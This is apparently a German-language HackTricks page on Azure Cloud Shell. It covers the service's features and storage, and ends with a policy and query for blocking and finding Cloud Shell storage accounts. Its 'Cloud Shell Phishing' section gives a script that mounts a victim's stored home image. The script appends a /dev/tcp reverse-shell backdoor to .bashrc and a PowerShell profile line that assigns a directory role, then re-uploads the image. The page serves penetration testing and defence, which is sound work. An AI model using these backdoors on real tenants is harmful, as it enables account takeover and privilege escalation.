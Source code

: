 # Az - Cloud Shell

{{#include ../../../banners/hacktricks-training.md}}

## Azure Cloud Shell

**Azure Cloud Shell** ist ein interaktives, authentifiziertes, browserzugängliches Terminal, das für die Verwaltung von Azure-Ressourcen konzipiert ist und die Flexibilität bietet, entweder mit Bash oder PowerShell zu arbeiten. Es läuft auf einem temporären, pro Sitzung host, der nach 20 Minuten Inaktivität abläuft, während Dateien im $HOME-Verzeichnis mit einem 5-GB-Dateifreigabe gespeichert werden. Cloud Shell kann über mehrere Punkte aufgerufen werden, einschließlich des Azure-Portals, shell.azure.com, Azure CLI und PowerShell-Dokumentation, der Azure-Mobile-App und der Visual Studio Code Azure-Kontoerweiterung.

Es sind keine Berechtigungen für diesen Dienst zugewiesen, daher gibt es keine Techniken zur Privilegieneskalation. Auch gibt es keine Art der Enumeration.

### Key Features

- **Vorinstallierte Tools**: Cloud Shell enthält eine umfassende Sammlung vorinstallierter Tools wie Azure CLI, Azure PowerShell, Terraform, Docker CLI, Ansible, Git und Texteditoren wie vim, nano und emacs. Diese Tools sind einsatzbereit. Um die installierten Pakete und Module aufzulisten, können Sie "Get-Module -ListAvailable", "tdnf list" und "pip3 list" verwenden.
- **Azure-Laufwerk (Azure:)**: PowerShell in Azure Cloud Shell umfasst das Azure-Laufwerk (Azure:), das eine einfache Navigation durch Azure-Ressourcen wie Compute, Network und Storage mit dateisystemähnlichen Befehlen ermöglicht. Wechseln Sie mit cd Azure: zum Azure-Laufwerk und kehren Sie mit cd ~ in Ihr Home-Verzeichnis zurück. Sie können weiterhin Azure PowerShell-Cmdlets verwenden, um Ressourcen von jedem Laufwerk aus zu verwalten.
- **Benutzerdefinierte Tool-Installation**: Benutzer, die Cloud Shell mit einem Speicherkonto konfigurieren, können zusätzliche Tools installieren, die keine Root-Berechtigungen erfordern. Diese Funktion ermöglicht eine weitere Anpassung der Cloud Shell-Umgebung, sodass Benutzer ihre Einrichtung an ihre spezifischen Bedürfnisse anpassen können.
- **$HOME-Persistenz**: Wenn Sie Azure Cloud Shell zum ersten Mal starten, können Sie es mit oder ohne ein angehängtes Speicherkonto verwenden.
- Wenn Sie sich entscheiden, keinen Speicher anzuhängen, wird eine flüchtige Sitzung erstellt, in der Dateien gelöscht werden, wenn die Sitzung endet.
- Um Dateien über Sitzungen hinweg zu speichern, haben Sie die Möglichkeit, **ein Speicherkonto zu mounten**, das automatisch als `$HOME\clouddrive` angehängt wird, wobei Ihr `$HOME`-Verzeichnis **als .img-Datei in einer Dateifreigabe gespeichert wird.**

### Cloud Shell Phishing

Wenn ein Angreifer Bilder anderer Benutzer in einem Speicherkonto findet, auf das er Schreib- und Lesezugriff hat, kann er das Bild herunterladen, **eine Bash- und PS-Hintertür hinzufügen** und es zurück in das Speicherkonto hochladen, sodass beim nächsten Zugriff des Benutzers auf die Shell die **Befehle automatisch ausgeführt werden**.

- **Bild herunterladen, Hintertür hinzufügen und das Bild hochladen:**
```bash
# Download image
mkdir /tmp/phishing_img
az storage file download-batch -d /tmp/phishing_img --account-name <acc-name>

# Mount image
cd /tmp/phishing_img/.cloudconsole
mkdir /tmp/cloudpoison
sudo mount acc_username.img /tmp/cloudpoison
cd /tmp/cloudpoison
sudo mkdir .config
sudo mkdir .config/PowerShell
sudo touch .config/PowerShell/Microsoft.PowerShell_profile.ps1
sudo chmod 777 .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Bash backdoor
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/${SERVER}/${PORT} 0>&1 &)' >> .bashrc

# PS backdoor
echo "Connect-AzureAD; Add-AzureADDirectoryRoleMember -ObjectId 1246bcfd-42dc-4bb7-a86d-3637ca422b21 -RefObjectId 1D8B2447-8318-41E5-B365-CB7275862F8A" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1
cd /tmp

sudo umount /tmp/cloudpoison

# Upload image
az storage file upload --account-name <acc-name> --path ".cloudconsole/acc_username.img" --source "./tmp/phishing_img/.cloudconsole/acc_username.img"
```
- **Dann phish den Benutzer, um auf https://shell.azure.com/ zuzugreifen.**

### Finde & Verhindere automatische Speicher-Konten von Cloud Shell

Speicherkonten, die von Cloud Shell erstellt wurden, sind mit **`ms-resource-usage:azure-cloud-shell`** gekennzeichnet. Es ist möglich, eine Azure-Ressourcenrichtlinie zu erstellen, die das Erstellen von Ressourcen mit diesem Tag deaktiviert.

Finde alle von Cloud Shell erstellten Speicherkonten nach Tags:
```bash
az storage account list --output json | jq '.[] | select(.tags["ms-resource-usage"]=="azure-cloud-shell")'
```
Richtlinie zur Verhinderung der Erstellung automatischer Speicherkonten für Cloud-Shell-Speicher basierend auf Tags:
```json
{
displayName: "Restrict cloud shell storage account creation",
description: "Storage accounts that you create in Cloud Shell are tagged with ms-resource-usage:azure-cloud-shell. If you want to disallow users from creating storage accounts in Cloud Shell, create an Azure resource policy for tags that is triggered by this specific tag. https://learn.microsoft.com/en-us/azure/cloud-shell/persisting-shell-storage#restrict-resource-creation-with-an-azure-resource-policy",
metadata: {
category: "Storage",
version: "1.0.0"
},
mode: "All",
parameters: {
effect: {
type: "String",
metadata: {
displayName: "Effect",
description: "Deny, Audit or Disabled the execution of the Policy"
},
allowedValues: [
"Deny",
"Audit",
"Disabled"
],
defaultValue: "Audit"
}
},
policyRule: {
if: {
allOf: [
{
field: "type",
equals: "Microsoft.Storage/storageAccounts"
},
{
field: "tags['ms-resource-usage']",
equals: "azure-cloud-shell"
}
]
},
then: {
effect: "[parameters('effect')]"
}
}
}
```
## Referenzen

- [https://learn.microsoft.com/en-us/azure/cloud-shell/overview](https://learn.microsoft.com/en-us/azure/cloud-shell/overview)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/features](https://learn.microsoft.com/en-us/azure/cloud-shell/features)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window](https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window)


## Persistenz

{{#ref}}
../az-persistence/az-cloud-shell-persistence.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
